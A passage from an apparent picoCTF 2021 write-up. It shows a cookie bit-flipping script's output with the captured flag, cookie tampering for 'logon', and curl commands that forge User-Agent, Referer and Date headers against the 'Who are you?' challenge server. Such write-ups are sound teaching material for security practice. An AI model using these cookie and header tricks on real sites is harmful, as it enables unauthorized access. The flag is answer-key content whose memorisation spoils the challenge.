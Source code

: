 A [Python program](https://github.com/HHousen/PicoCTF-2021/blob/master/Web%20Exploitation/More%20Cookies/improved_script.py) is provided by [Hayden Housen](https://github.com/HHousen). Below is the program output:

```console
$ python3 morecookies.py
  9%|██████▉                                                                   | 9/96 [00:04<00:40,  2.14it/s]Admin bit found in byte 9 bit 0.
Flag: picoCTF{cO0ki3s_yum_e57b2438}
  9%|██████▉                                                                   | 9/96 [00:04<00:46,  1.87it/s]
```

## logon (100 points)

**Description**: The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? [link](https://jupiter.challenges.picoctf.org/problem/44573/) or [http://jupiter.challenges.picoctf.org:44573](http://jupiter.challenges.picoctf.org:44573)

**Solution**: To capture the flag, we need to manually set the cookie value for whatever username we choose.

## Who are you? (100 points)

**Description**: Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn [http://mercury.picoctf.net:1270/](http://mercury.picoctf.net:1270/)

**Solution**: When we first open the link, we will notice the line &mdash;&mdash; "Only people who use the official PicoBrowser are allowed on this site!" Try the following command:

```bash
curl --user-agent "PicoBrowser" http://mercury.picoctf.net:1270/
```

We should then find:

```html
<h3 style="color:red">I don&#39;t trust users visiting from another site.</h3>
```

The `Referer` field in the HTTP header identifies the page that led to the current web page. When a user clocks on a link on web page `A` to go to web page `B`, the referer header string for page `B` will contain the URL of page `A`. Try the following command:

```bash
curl --user-agent "PicoBrowser" --referer "http://mercury.picoctf.net:1270/" http://mercury.picoctf.net:1270/
```

We should then find:

```html
<h3 style="color:red">Sorry, this site only worked in 2018.</h3>
```

Let's give a 2018 date:

```console
$ curl --user-agent "PicoBrowser" --referer "http://mercury.picoctf.net:1270/" -H "Date: Thu, 02 Feb 2018 19:44:00 CST" http://mercury.picoctf.net:1270/ | grep "<h3.*>.*<\/h3>"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1046  100  1046    0     0  15144      0 --:--:-- --:--:-- --:--:-- 17147
				<h3 style="color:red">I don&#39;t trust users who can be tracked.</h3>
```
